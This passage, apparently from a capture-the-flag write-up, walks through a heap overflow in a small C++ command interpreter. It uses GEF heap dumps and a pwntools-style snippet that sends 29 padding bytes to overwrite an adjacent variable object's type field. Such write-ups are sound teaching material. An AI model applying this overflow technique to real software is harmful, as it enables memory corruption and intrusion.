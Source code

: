 ```
    [0x000055eae60262a0     00 1c 01 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x55eae6037eb0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055eae6037eb0     01 00 00 00 24 7a 00 00 00 00 00 00 00 00 00 00    ....$z..........]
Chunk(addr=0x55eae6037ed0, size=0x410, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055eae6037ed0     3e 20 72 0a 74 69 6e 67 20 6e 65 77 20 6c 6f 67    > r.ting new log]
Chunk(addr=0x55eae60382e0, size=0x1010, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055eae60382e0     24 76 61 72 3d 73 74 72 0a 00 00 00 00 00 00 00    $var=str........]
Chunk(addr=0x55eae60392f0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055eae60392f0     e8 2b 4a e2 ea 55 00 00 00 00 00 00 00 00 00 00    .+J..U..........]
Chunk(addr=0x55eae6039310, size=0x50, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055eae6039310     01 00 00 00 00 00 00 00 88 32 4a e2 ea 55 00 00    .........2J..U..]
Chunk(addr=0x55eae6039360, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055eae6039360     02 00 00 00 6c 6f 67 24 76 61 72 00 00 00 00 00    ....log$var.....]
Chunk(addr=0x55eae6039380, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055eae6039380     d0 2b 4a e2 ea 55 00 00 01 00 00 00 00 00 00 00    .+J..U..........]
Chunk(addr=0x55eae60393a0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055eae60393a0     73 74 72 00 00 00 00 00 00 00 00 00 00 00 00 00    str.............]
Chunk(addr=0x55eae60393c0, size=0x50, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055eae60393c0     00 00 00 00 00 00 00 00 10 93 03 e6 ea 55 00 00    .............U..]
Chunk(addr=0x55eae6039410, size=0xdc00, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  top chunk
```
In the stack, we have:
* the two chunks created at the beginning of the program
* the first log chunk that contains the command `$z` that we run at first
* the two `std::cin` and `std::cout` buffers
* the `longVariable` named `z` with value 0
* the pair in the `variables` map for the `z` variable
* the second log that we will overflow in the next command (note the address `0x55eae6039360`)
* the variable object that we will overwrite in the next command
* the memory allocated to store the content of the `var` variable
* the pair in the `variables` map for the `var` variable

The part of this stack that interests us is the second log and the `str` variable object. Let's look to them more closely:
```
gef➤  x/16wx 0x55eae6039360
0x55eae6039360:	0x00000002	0x24676f6c	0x00726176	0x00000000
0x55eae6039370:	0x00000000	0x00000000	0x00000021	0x00000000
0x55eae6039380:	0xe24a2bd0	0x000055ea	0x00000001	0x00000000
0x55eae6039390:	0xe60393a0	0x000055ea	0x00000021	0x00000000
```
Now, let's imagine what we want (I put an `X` for every garbage values):
```
gef➤  x/16wx 0x55eae6039360
0x55eae6039360:	0x00000002	0x24676f6c	0xXX726176	0xXXXXXXXX
0x55eae6039370:	0xXXXXXXXX	0xXXXXXXXX	0xXXXXXXXX	0xXXXXXXXX
0x55eae6039380:	0xXXXXXXXX	0xXXXXXXXX	0x00000000	0x00000000
0x55eae6039390:	0xe60393a0	0x000055ea	0x00000021	0x00000000
```
Two things changed here: we add some garbage characters from the end of the last command in the log to the end of the `print` address of the `var` variable. And, the type changed from 1 to 0. As the end of a string is marked with the NULL byte, we can create a command of size 29 (which corresponds to the number of bytes marked `XX`) and this will set the type to 0:
```
r = conn.recvuntil(b'> ')
print(r)
conn.send(b'X'*29+b'\n')
```
Now, if we look at the heap, we have:
```
gef➤  heap chunks
[...]
    [0x0000557fb49ab360     03 00 00 00 6c 6f 67 24 76 61 72 58 58 58 58 58    ....log$varXXXXX]
Chunk(addr=0x557fb49ab380, size=0x5858585858585858, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
```